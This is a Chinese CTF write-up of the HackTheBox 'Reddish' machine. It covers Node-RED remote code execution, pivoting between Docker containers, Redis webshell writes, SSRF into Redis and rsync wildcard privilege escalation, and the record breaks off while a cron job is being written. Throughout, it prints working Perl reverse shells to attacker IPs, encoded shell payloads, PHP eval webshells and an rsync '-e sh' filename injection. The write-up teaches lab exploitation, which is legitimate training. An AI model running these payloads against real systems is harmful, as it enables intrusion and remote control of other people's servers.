# 通过HTB靶机学习恶劣容器的内网环境下如何内网渗透-先知社区

> **来源**: https://xz.aliyun.com/news/18660  
> **文章ID**: 18660

---

靶场介绍

<https://www.hackthebox.com/machines/reddish>

这是一台位于HTB上的靶机，拥有多个网段，并且还需要位于docker之间横向移动，以找寻弱点逃逸

仅攻击机上有ncat加上bash来进行反弹shell和文件传输

反正感觉还是能学到不少东西的，各位师傅可以体验一下，毕竟现在实战docker还是蛮多的

考点

> * node-red-rce
> * docker横向
> * redis
>
> * 写webshell
> * ssrf+reddish
>
> * 恶劣环境下文件传输与反弹shell
>
> * nc与ncat（仅攻击机上有ncat加上bash来进行反弹shell和文件传输）
>
> * docker逃逸

拓扑图在最后有

看佬c1trus说是很难的靶机，但是能学东西，正好最近在学docker逃逸，打一打


# 信息收集

10.10.10.94

tscan扫端口



只开放了一个端口1880

Mongo-Express

Node.js

# 外围打点

## node-red-rce（10.10.10.94|172.18.0.2/172.19.0.4）

访问显示这个



那么我们post看一下



```
{
  "id": "ffec0b75777a00bc6e65ff2660896ad1",
  "ip": "::ffff:10.10.16.38",
  "path": "/red/{id}"
}
```

根据这个提示进行访问

```
http://10.10.10.94:1880/red/ffec0b75777a00bc6e65ff2660896ad1/
```



可以看到node-red

查一下看看有没有rce漏洞



<https://quentinkaiser.be/pentesting/2018/09/07/node-red-rce/>



可以通过其功能完成rce

我们可以通过inject注入命令，使用exec执行



这里输入payload反弹shell



这是我们自己的ip



```
perl -e 'use Socket;$i="10.10.16.38";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

连接exec后点击部署，再点inject旁的方块就可以执行







还是用kali打吧，连上vpn



看见这个就是成功了

本地监听





记得修改ip为自己的ip



反弹shell成功

# 后渗透

## 内网横向-docker横向

进来直接就是root权限，很可能为docker

我们信息收集判断一下

```
cat /proc/1/cgroup | grep -qi docker && echo "Is Docker" || echo "Not Docker"

cat /proc/1/cgroup
```



再查看一下根目录

```
ls -la
```



.dockerenv

就是docker了

那么接下来我们需要逃逸或者横向

### docker信息收集（入口机内网ip172.18.0.2/172.19.0.4）

先尽量逃逸吧，信息收集

```
#判断特权模式
cat /proc/self/status | grep -qi "0000003fffffffff" && echo "Is privileged mode" || echo "Not privileged mode"
#挂载DockerSocket
ls /var/run/ | grep -qi docker.sock && echo "Docker Socket is mounted." || echo "Docker Socket is not mounted."
#挂载procfs
find / -name core_pattern 2>/dev/null | wc -l | grep -q 2 && echo "Procfs is mounted." || echo "Procfs is not mounted."
#挂载宿主机根目录
find / -name passwd 2>/dev/null | grep /etc/passwd | wc -l | grep -q 7 && echo "Root directory is mounted." || echo "Root directory is not mounted."
#dockerremoteapi未授权访问
IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && timeout 3 bash -c "echo >/dev/tcp/$IP/2375" > /dev/null 2>&1 && echo "Docker Remote API Is Enabled." || echo "Docker Remote API is Closed."
```



```
# cat /proc/self/status | grep -qi "0000003fffffffff" && echo "Is privileged mode" || echo "Not privileged mode"
Not privileged mode
# ls /var/run/ | grep -qi docker.sock && echo "Docker Socket is mounted." || echo "Docker Socket is not mounted."
Docker Socket is not mounted.
# find / -name core_pattern 2>/dev/null | wc -l | grep -q 2 && echo "Procfs is mounted." || echo "Procfs is not mounted."
Procfs is not mounted.
# find / -name passwd 2>/dev/null | grep /etc/passwd | wc -l | grep -q 7 && echo "Root directory is mounted." || echo "Root directory is not mounted."
Root directory is not mounted.
# IP=`hostname -i | awk -F. '{print $1 "." $2 "." $3 ".1"}' ` && timeout 3 bash -c "echo >/dev/tcp/$IP/2375" > /dev/null 2>&1 && echo "Docker Remote API Is Enabled." || echo "Docker Remote API is Closed."
Docker Remote API is Closed.
# 

```

都没有

那么只能在docker里进行横向，再看看其他的docker是否有漏洞可以逃逸了

信息收集

```
#查看有没有外连接口、和服务
# ss -tunlp
Netid  State      Recv-Q Send-Q     Local Address:Port       Peer Address:Port 
udp    UNCONN     0      0             127.0.0.11:36168                 *:*     
tcp    LISTEN     0      128           127.0.0.11:39029                 *:*     
tcp    LISTEN     0      5                      *:1111                  *:*      users:(("socat",pid=19395,fd=5))
tcp    LISTEN     0      128                   :::1880                 :::*      users:(("node",pid=1,fd=10))


# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth0@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
19: eth1@if20: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.4/16 brd 172.19.255.255 scope global eth1
       valid_lft forever preferred_lft forever

```

可以看到有172.18.0.2/16和172.19.0.4/16

这两个网段

```
10.10.10.94  172.18.0.2/172.19.0.4  同时存在两个内网网段
```

#### 无工具内网探测

利用脚本进行扫描

```
for i in `seq 1 255`; do ping -c 1 -W 1 172.18.0.$i | grep 'from'; done

for i in `seq 1 255`;do ping -c 1 -W 1 172.19.0.$i |grep 'from' ;done
```

```
# for i in `seq 1 255`; do ping -c 1 -W 1 172.18.0.$i | grep 'from'; done
64 bytes from 172.18.0.1: icmp_seq=1 ttl=64 time=0.077 ms
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.039 ms

# for i in `seq 1 255`;do ping -c 1 -W 1 172.19.0.$i |grep 'from' ;done
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.092 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.070 ms
64 bytes from 172.19.0.3: icmp_seq=1 ttl=64 time=0.078 ms
64 bytes from 172.19.0.4: icmp_seq=1 ttl=64 time=0.026 ms
```

整理一下（这里认为172.19.0.1和172.18.0.1肯定就是宿主机了）

```
172.19.0.1  172.18.0.1   宿主机
10.10.10.94 172.19.0.4  172.18.0.2   本机 跳板容器
172.19.0.3
172.19.0.2

```

查看当前目录，发现有个portscan.sh（是别人留下来的，因为是公用容器，不急后续我再自己操作）

先用用先

直接执行

```
# ./portscan.sh
tput: No value for $TERM and no -T specified

[+] Enumerando Puertos para el host 172.18.0.1:
	[+] Port 1880 - OPEN

[+] Enumerando Puertos para el host 172.18.0.2:
	[+] Port 1111 - OPEN
	[+] Port 1880 - OPEN

[+] Enumerando Puertos para el host 172.19.0.1:

[+] Enumerando Puertos para el host 172.19.0.2:
	[+] Port 6379 - OPEN

[+] Enumerando Puertos para el host 172.19.0.3:
	[+] Port 80 - OPEN

[+] Enumerando Puertos para el host 172.19.0.4:
	[+] Port 1111 - OPEN
	[+] Port 1880 - OPEN
tput: No value for $TERM and no -T specified

```

扫描出这些端口

重点来了

那么我们如果是实战情况下，没有前辈，我们应该怎么玩呢？

#### 恶劣环境（上传编译后的二进制工具）

我看了wp，发现他们并没有上传文件这个痛苦，应该是靶机被改了，我们直接重启

直接开启web服务 传个编译好的rustscan上去

原来的确就是存在这个问题，但是我之前没遇到过，这里贴另一个佬的wp

<https://www.cnblogs.com/autopwn/p/14120180.html>

通过上述环境得到的IP地址，探测一下存活主机和开放的端口，使用了for循环探测和nmap的静态二进制文件

##### 主机探活

这里就可以扫c段啦

```
docker环境下命令很少，使用循环ping探测存活主机
for i in $(seq 1 20); do (ping -c 1 172.18.0.$i | grep "bytes from"); done
for i in $(seq 1 20); do (ping -c 1 172.19.0.$i | grep "bytes from"); done

一般在目标环境恶劣的情况下，不方便安装和编译软件可以使用静态的二进制文件进行完成下一步工作

以下是部分编译好的静态二进制文件
https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64
```

将下载好本地kali的文件传到目标靶机

###### 文件传输1：攻击机nc+靶机bash

```
在目标靶机上没有nc命令的情况下使用nc传文件操作

本地kali操作
1.准备好要复制的静态二进制文件nmap
2.准备好/etc/services文件
3.本地nc监听端口并带入标准输入重定向指定要传输的文件
nc -lvnp 5555 < nmap
nc -lvnp 5555 < services

目标靶机操作
执行之前可以通过md5sum比对传输前后的md5值确认文件传输过程未损坏
1.bash -c "cat < /dev/tcp/10.10.14.6/5555 > nmap"
2.bash -c "cat < /dev/tcp/10.10.14.6/5555 > services"


#本地
nc -lvnp 5555 < rustscan


#靶机
bash -c "cat < /dev/tcp/10.10.16.38/5555 > rustscan"
bash -c "cat < /dev/tcp/10.10.16.38/5555 > services"

mv services /etc/services
```







那边卡住了，我们重新反弹一个shell来并使用md5sum查看是否上传完整

```
┌──(root?kali)-[/home/kali/red/Rustscan]
└─# md5sum rustscan      
befc71c3be8d2b5238d797d8622e402c  rustscan

```

完整，那么我们需要将前面的传输断掉，ctrl+c打断，不然会显示文件被占用

再次进行端口扫描

```
# chmod +x ./rustscan
# ./rustscan -a 172.19.0.3
/bin/sh: 6: ./rustscan: Text file busy
# ./rustscan -a 172.19.0.3

```

发现还是扫不成功，还是传nmap和/etc/services扫吧，不然会报错

```
nc -lvnp 5555 < nmap

bash -c "cat < /dev/tcp/10.10.16.38/5555 > nmap"


┌──(root㉿kali)-[/home/kali/red]
└─# md5sum nmap        
99d1b866c3eb7dd11a84829abb5a6758  nmap


# md5sum nmap 
99d1b866c3eb7dd11a84829abb5a6758  nmap

```

###### 文件传输2：base64编码传递

此外还有什么办法呢

另一种传输文件的方法-通过将文件编码成base64编码然后粘贴到目标靶机将base64进行解码即可，下面是在线将文件转换成base64编码  
<https://base64.guru/converter/encode/file>

|  |
| --- |
| ``` cat <<EOF>>shellbase64 cat shellbase64 | base64 -d > shellbmfx ``` |

还可以传输打包好的工具

###### 文件传输3：纯bash脚本+入口机web服务

将要传入的东西使用nc或者web服务存放着

选择使用一个[函数，该函数将使用纯 bash 充当 curl](https://unix.stackexchange.com/questions/83926/how-to-download-a-file-using-just-bash-and-nothing-else-no-curl-wget-perl-et)

直接复制以下内容，粘贴到终端（不需要创建sh文件），回车即可生效

```
function __curl() {
  read -r proto server path <<<"$(printf '%s' "${1//// }")"
  if [ "$proto" != "http:" ]; then
    printf >&2 "sorry, %s supports only http
" "${FUNCNAME[0]}"
    return 1
  fi
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [ "${HOST}" = "${PORT}" ] && PORT=80

  exec 3<>"/dev/tcp/${HOST}/$PORT"
  printf 'GET %s HTTP/1.0\r
Host: %s\r
\r
' "${DOC}" "${HOST}" >&3
  (while read -r line; do
   [ "$line" = $'\r' ] && break
  done && cat) <&3
  exec 3>&-
}
```

将以上函数直接复制粘贴输入终端中

这下面这个也是

```
function __wget() {
    : ${DEBUG:=0}
    local URL=$1
    local tag="Connection: close"
    local mark=0

    if [ -z "${URL}" ]; then
        printf "Usage: %s "URL" [e.g.: %s http://www.google.com/]" \
               "${FUNCNAME[0]}" "${FUNCNAME[0]}"
        return 1;
    fi
    read proto server path <<<$(echo ${URL//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
    [[ $DEBUG -eq 1 ]] && echo "HOST=$HOST"
    [[ $DEBUG -eq 1 ]] && echo "PORT=$PORT"
    [[ $DEBUG -eq 1 ]] && echo "DOC =$DOC"

    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.1\r
Host: ${HOST}\r
${tag}\r
\r
" >&3
    while read line; do
        [[ $mark -eq 1 ]] && echo $line
        if [[ "${line}" =~ "${tag}" ]]; then
            mark=1
        fi
    done <&3
    exec 3>&-
}
```

Then you can execute it as from the shell as follows:

然后就可以正常下载了

```
__wget http://example.iana.org/
```

##### 端口扫描

接下来主要是对

172.19.0.3

172.19.0.2

172.19.0.1

进行探测

```
chmod +x nmap
./nmap -p- -sT --min-rate 5000 172.19.0.3
./nmap -p- -sT --min-rate 5000 172.19.0.2
./nmap -p- -sT --min-rate 5000 172.19.0.1


# mv services /etc/services
# ./nmap -p- -sT --min-rate 5000 172.19.0.3

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-05-31 10:00 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for reddish_composition_www_1.reddish_composition_internal-network (172.19.0.3)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000078s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:13:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.30 seconds

# ./nmap -p- -sT --min-rate 5000 172.19.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-05-31 10:00 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for reddish_composition_redis_1.reddish_composition_internal-network (172.19.0.2)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000079s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
6379/tcp open  redis
MAC Address: 02:42:AC:13:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.30 seconds


# ./nmap -p- -sT --min-rate 5000 172.19.0.1

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2025-05-31 10:01 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.19.0.1
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.000070s latency).
Not shown: 65534 closed ports
PORT     STATE    SERVICE
1880/tcp filtered unknown
MAC Address: 02:42:2D:25:9A:D2 (Unknown)
```

扫描出来了开放了172.19.0.3的端口80和172.19.0.2的6379

那么我们先挂载代理吧

上传stowaway客户端

还是一样的

```
nc -lvnp 5555 < linux_x64_agent

bash -c "cat < /dev/tcp/10.10.16.38/5555 > linux_x64_agent"

#本地
./linux_x64_admin -l 1122

chmod +x linux_x64_agent
./linux_x64_agent -c 10.10.16.38:1122
```





配置好[proxychains](https://www.c1trus.top/26-%E5%B7%A5%E5%85%B7%E4%BD%BF%E7%94%A8/%E3%80%90%E4%BB%A3%E7%90%86%E3%80%91proxychains.html#_0)和火狐浏览器



火狐需要更新到最新版本



172.19.0.3



现在我们就可以访问到内网了





### redis（172.19.0.2）

提示我们这个网站目录与redis数据库的目录是共享的，并且目录的url是 `/f187a0ec71ce99642e4f0afbd441a68b`

所以我们需要尝试打一下redis

直接使用redis-cli试试有没有未授权

在kali安装一下

```

┌──(root?kali)-[~]
└─# proxychains4 -q redis-cli -h 172.19.0.2
172.19.0.2:6379> info
# Server
redis_version:4.0.9
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:cce7cc41d26597f7
redis_mode:standalone
os:Linux 4.15.0-213-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:6.4.0
process_id:7
run_id:f5a494521dd3ee6f4f76d460e202a334f3486795
tcp_port:6379
uptime_in_seconds:5722
uptime_in_days:0
hz:10
lru_clock:3857241
executable:/data/redis-server
config_file:


```



这是一个比较老的版本，4.0.9



我们有很多方法可以getshell

这里 我想手搓尝试一下怎么写webshell的

这个版本还可以直接用脚本打

**Redis-Rogue-Server** ➔ 就是**伪造一个假的 Redis 服务器**，骗目标 Redis 客户端来**自动执行命令**

#### 写webshell（172.19.0.3/172.20.0.3）

并且有个目录是共享的，我们选择直接写webshell到那个目录，直接getshell两台

```
config set dir /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
config set dbfilename shell.php
set x "<?php eval($_POST['a']); phpinfo();?>"
save


172.19.0.2:6379> flushall
OK
(0.60s)
172.19.0.2:6379> config set dir /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
OK
172.19.0.2:6379> config set dbfilename shell.php
OK
172.19.0.2:6379> set x "<?php eval($_POST['a']); phpinfo();?>"
OK
172.19.0.2:6379> save
OK


```

成功



前面的源码还给了几个api接口，看起来可以ssrf

我想打一下ssrf+redis未授权

#### ssrf+redis未授权



的确成功了

```
proxychains4 -q curl http://172.19.0.3/8924d0549008565c554f8128cd11fda4/ajax.php?test=set shell "<?php echo @eval($_POST[x]); ?>"
```

```
proxychains4 -q curl http://172.19.0.3/8924d0549008565c554f8128cd11fda4/ajax.php?test=set%20shell%20%22%3C%3Fphp%20echo%20%40eval%28%24_POST%5Bx%5D%29%3B%20%3F%3E%22
```

的确能成功

```
                              
┌──(root㉿kali)-[/home/kali/red/Rustscan]
└─# proxychains4 -q curl http://172.19.0.3/8924d0549008565c554f8128cd11fda4/ajax.php?test=set%20shell%20%22%3C%3Fphp%20echo%20%40eval%28%24_POST%5Bx%5D%29%3B%20%3F%3E%22
OK                  
```



webshell每隔几分钟就会被删除

我们写个脚本一直写



```
proxychains4 -q redis-cli -h 172.19.0.2 flushall
proxychains4 -q redis-cli -h 172.19.0.2 config set dir /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/
proxychains4 -q redis-cli -h 172.19.0.2 config set dbfilename shell.php
proxychains4 -q redis-cli -h 172.19.0.2 SET shell "<?php eval($_POST['cmd']); phpinfo(); ?>"
proxychains4 -q redis-cli -h 172.19.0.2 save
```

这里由于机子不出网，所以需要将nc



* 用socat把 入口机的端口转发到你kali的监听端口。  
  然后你需要用Perl的bind shell 对他进行 base64 然后再urlencode 才能反弹成功
* 另一种思路

* 上传ncat 在入口机进行监听
* 反弹shell到入口机
* 这样就不用使用pwncat里的socat进行端口转发了

```
nc -lvnp 5555 < ncat
bash -c "cat < /dev/tcp/10.10.16.38/5555 > ncat"
```



本机为172.19.0.4

```
#先是perl的bind shell 
perl -e 'use Socket;$i="172.19.0.4";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'

# base64 
echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuNCI7JHA9Nzc3Nztzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCJzaCAtaSIpO307Jw== |base64 -d |sh

#再url
cmd=system('echo%20cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuNCI7JHA9Nzc3Nztzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI%2BJlMiKTtleGVjKCJzaCAtaSIpO307Jw%3D%3D%20%7Cbase64%20-d%20%7Csh')

./ncat -lvnp 7777
```

但是这里一直反弹不回来



多试几遍

换一种方式写webshell，更方便操作，直接传get就可以了





```
proxychains4 -q redis-cli -h 172.19.0.2 flushall
proxychains4 -q cat x.php | proxychains4 -q redis-cli -h 172.19.0.2 -x set reverse
proxychains4 -q redis-cli -h 172.19.0.2 config set dir /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/
proxychains4 -q redis-cli -h 172.19.0.2 config set dbfilename "x.php"
proxychains4 -q redis-cli -h 172.19.0.2 save
```

```
http://172.19.0.3/f187a0ec71ce99642e4f0afbd441a68b/x.php?x=echo%20cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuNCI7JHA9Nzc3Nztzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI%2BJlMiKTtleGVjKCJzaCAtaSIpO307Jw%3D%3D%20%7Cbase64%20-d%20%7Csh
```



成功弹shell，不过是www权限

### rsync提权（172.19.0.3）

这里为什么要提权呢？为了读第一段flag

#### 信息收集

我们写一个脚本进行监听实时监控系统中正在运行的进程，并显示新出现或消失的进程

```
#!/bin/bash
IFS=$'
'
old=$(ps -eo command)
while true; do
    new=$(ps -eo command)
    diff <(echo "$old") <(echo "$new") | grep [\<\>]
    sleep .3
    old=$new
done
```



我们需要进到tmp目录进行读写操作

将上面的脚本以base64编解码写入

```
$ echo 'IyEvYmluL2Jhc2gKCklGUz0kJ1xuJwoKb2xkPSQocHMgLWVvIGNvbW1hbmQpCndoaWxlIHRydWU7IGRvCiAgICBuZXc9JChwcyAtZW8gY29tbWFuZCkKICAgIGRpZmYgPChlY2hvICIkb2xkIikgPChlY2hvICIkbmV3IikgfCBncmVwIFtcPFw+XQogICAgc2xlZXAgLjMKICAgIG9sZD0kbmV3CmRvbmUK' |base64 -d >proc.sh
sh: 21: cannot create proc.sh: Permission denied
sh: echo: I/O error
$ cd ../../
$ cd /temp^H^H
sh: 23: cd: can't cd to /temp
$ cd /tmp
$ pwd
/tmp
$ echo 'IyEvYmluL2Jhc2gKCklGUz0kJ1xuJwoKb2xkPSQocHMgLWVvIGNvbW1hbmQpCndoaWxlIHRydWU7IGRvCiAgICBuZXc9JChwcyAtZW8gY29tbWFuZCkKICAgIGRpZmYgPChlY2hvICIkb2xkIikgPChlY2hvICIkbmV3IikgfCBncmVwIFtcPFw+XQogICAgc2xlZXAgLjMKICAgIG9sZD0kbmV3CmRvbmUK' |base64 -d >proc.sh
$ 

```

```
$ pwd
/tmp
$ ls
proc.sh
$ chmod +x proc.sh
$ ./proc.sh
> /usr/sbin/CRON
> /bin/sh -c sh /backup/backup.sh
> sh /backup/backup.sh
> rsync -a *.rdb rsync://backup:873/src/rdb/
< /usr/sbin/CRON
< /bin/sh -c sh /backup/backup.sh
< sh /backup/backup.sh
< rsync -a *.rdb rsync://backup:873/src/rdb/

```

监听到一个backup.sh的脚本

那么我们可以读一下backup.sh的内容

```
$ cat /backup/backup.sh
cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b

```

可以看到rsync，并且使用了通配符\*.rdb

也可以解释，为什么刚刚我们的木马一直被杀了

> rsync介绍：
>
> sync同步：刷新文件系统缓存，强制将修改过的数据块写入磁盘，并且更新超级快。一般重启系统前执行sync命令
>
> async：将数据先缓存在缓冲区，再周期性（一般是30s）的去同步到磁盘 。性能好，但是不能保证数据的安全性
>
> rsync：远程同步，remote synchronous

我们可以在/var/www/html/f187a0ec71ce99642e4f0afbd441a68b目录

创建一个rdb文件，然后等待执行



```
echo "" > /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/shell.rdb
```

```
echo 'cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuNCI7JHA9Nzc3ODtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsn' |base64 -d  > /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/shell.rdb
```

```
echo 'cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuNCI7JHA9Nzc5OTtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsn' |base64 -d  > /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/shell.rdb
```

还有创建一个文件名为`-e sh shell.rdb`以执行上面的命令

```
echo "" > /var/www/html/f187a0ec71ce99642e4f0afbd441a68b/'-e sh shell.rdb'
```





入口机监听等待



命令执行

成功反弹shell





总算拿到这台机子172.19.0.3的root了

## flag01

读取第一段flag

```
# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
13: eth0@if14: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.19.0.3/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever
17: eth1@if18: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:14:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.20.0.3/16 brd 172.20.255.255 scope global eth1
       valid_lft forever preferred_lft forever
# 


# pwd
/var/www/html/f187a0ec71ce99642e4f0afbd441a68b
# cd /home/somaro
# ls
user.txt
# cat user.txt
adc95e247f018b843b627efde89f2cb9

```

### 利用Rsync文件写入定时任务（172.20.0.2）

继续信息收集

```
# for i in `seq 1 255`;do ping -c 1 -W 1 172.20.0.$i |grep 'from' ;done
64 bytes from 172.20.0.1: icmp_seq=1 ttl=64 time=0.061 ms
64 bytes from 172.20.0.2: icmp_seq=1 ttl=64 time=0.034 ms
64 bytes from 172.20.0.3: icmp_seq=1 ttl=64 time=0.017 ms

```

前面写webshell的机子是172.19.0.2，同时发现了新的内网网段172.20.0.3/24

发现还有一台172.20.0.2

我们ping 一下backup

发现就是这台机子



我们需要横向到这个台机子上

```
[Attacker] 10.10.16.38

  [nodered] 172.18.0.2:1880 172.19.0.4:1880(root)(已拿下)

    [host] 172.19.0.1

    [www] 172.19.0.3:80/172.20.0.3 == website (root)(已拿下)

      [backup] 172.20.0.2

    [redis] 172.19.0.2:6379 == database of 172.19.0.3(已拿下)

  
剩下的就是backup172.20.0.2没打了

```

然后因为我们这个www的机器有root权限

前面我们也介绍到

rsync：远程同步，remote synchronous

所以我们是可以利用rsync进行文件写入到远程服务器上的

在写反弹shell的脚本和写定时任务前

按正常的思路，我们需要端口转发，将shell通过将入口机的端口转发到攻击机上的端口，然后攻击机监听就可以成功反弹shell了，但是这里我们不这么操作

（想偷懒的所以延伸出来的思路）

既然我们已经可以通过只有攻击机有nc传入nc等工具到靶机了

那么我们可以以同样的操作，再次将nc传



```
#入口机（172.19.0.4）
./ncat -lvnp 5555 < /node-red/ncat

#172.20.0.3（172.19.0.2内网存在ssrf那台机子上）
bash -c "cat < /dev/tcp/172.19.0.4/5555 > ncat"
```

成功将nc传到了172.20.0.3上，这下172.20.0.3也可以完成监听反弹shell的操作了

接下来就是横向移动到backup容器了

具体操作

```
./ncat -lvnp 9999
```

```
#原命令
perl -e 'use Socket;$i="172.20.0.3";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

#将反弹shell的语句写入shell.sh 
echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjIwLjAuMyI7JHA9OTk5OTtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsn |base64 -d >shell.sh
```

```

# echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjIwLjAuMyI7JHA9OTk5OTtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsn |base64 -d >shell.sh
# ls
backdoor.php
ncat
proc.sh
shell.sh


 //先传一个反弹shell的脚本到backup上
# rsync shell.sh rsync://backup:873/src/tmp/shell.sh   
# rsync  rsync://backup:873/src/tmp/shell.sh
-rw-r--r--            219 2025/05/31 18:32:06 shell.sh


#再写入定时任务执行shell.sh
